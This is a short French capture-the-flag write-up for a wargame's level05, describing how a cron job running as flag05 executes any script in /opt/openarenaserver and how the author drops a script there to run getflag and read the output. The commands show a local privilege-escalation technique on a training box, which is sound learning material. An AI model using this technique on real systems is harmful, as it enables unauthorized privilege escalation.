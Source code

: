 Quand on arrive sur le level05, on nous dit qu'on a recu un mail.
En faisant un `find / -name mail 2>/dev/null`, on trouve un dossier /var/mail.

Ce dossier contient level05 et dans ce fichier on peut voir `*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`

On affiche openarenaserver:

```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

On voit que le script regarde dans le dossier `/opt/openarenaserver/`, execute ce qu'il y'a dedans et supprime le fichier.

On fait donc un script qui appelle getflag et met le resultat dans un fichier: 
`echo "getflag > /tmp/getflag" > getflag.sh`

Il faut pas que le fichier existe avant.

On fait `cat /tmp/getflag` et on obtient donc le flag.